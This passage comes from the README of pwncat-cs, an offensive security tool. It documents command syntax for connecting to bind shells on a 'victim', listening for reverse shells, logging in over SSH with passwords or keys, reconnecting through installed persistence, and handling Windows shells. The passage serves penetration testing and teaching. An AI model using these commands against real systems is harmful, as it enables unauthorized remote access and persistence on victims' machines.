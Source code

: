 ### Connecting to a Victim

The command line parameters for pwncat attempt to be flexible and accept
a variety of common connection syntax. Specifically, it will try to accept
common netcat and ssh like syntax. The following are all valid:

```sh
# Connect to a bind shell
pwncat-cs connect://10.10.10.10:4444
pwncat-cs 10.10.10.10:4444
pwncat-cs 10.10.10.10 4444
# Listen for reverse shell
pwncat-cs bind://0.0.0.0:4444
pwncat-cs 0.0.0.0:4444
pwncat-cs :4444
pwncat-cs -lp 4444
# Connect via ssh
pwncat-cs ssh://user:password@10.10.10.10
pwncat-cs user@10.10.10.10
pwncat-cs user:password@10.10.10.10
pwncat-cs -i id_rsa user@10.10.10.10
# SSH w/ non-standard port
pwncat-cs -p 2222 user@10.10.10.10
pwncat-cs user@10.10.10.10:2222
# Reconnect utilizing installed persistence
#   If reconnection fails and no protocol is specified,
#   SSH is used as a fallback.
pwncat-cs reconnect://user@10.10.10.10
pwncat-cs reconnect://user@c228fc49e515628a0c13bdc4759a12bf
pwncat-cs user@10.10.10.10
pwncat-cs c228fc49e515628a0c13bdc4759a12bf
pwncat-cs 10.10.10.10
```

By default, pwncat **assumes the target platform is Linux**. In order to
connect to a Windows reverse or bind shell, you must pass the `--platform/-m`
argument:

``` shell
pwncat-cs -m windows 10.10.10.10 4444
pwncat-cs -m windows -lp 4444
```

For more information on the syntax and argument handling, see the
help information with ``pwncat-cs --help`` or visit the [documentation].

## Docker Image

The recommended installation method is a Python virtual environment. This
provides the easiest day-to-day usage of `pwncat`. However, there has been
interest in using `pwncat` from a docker image, so I have provided a
Dockerfile which provides a working `pwncat` installation. To build the image
use:


[documentation]: https://pwncat.readthedocs.io/en/latest
[pwncat-windows-c2]: https://github.com/calebstewart/pwncat-windows-c2
[BadPotato]: https://github.com/calebstewart/pwncat-badpotato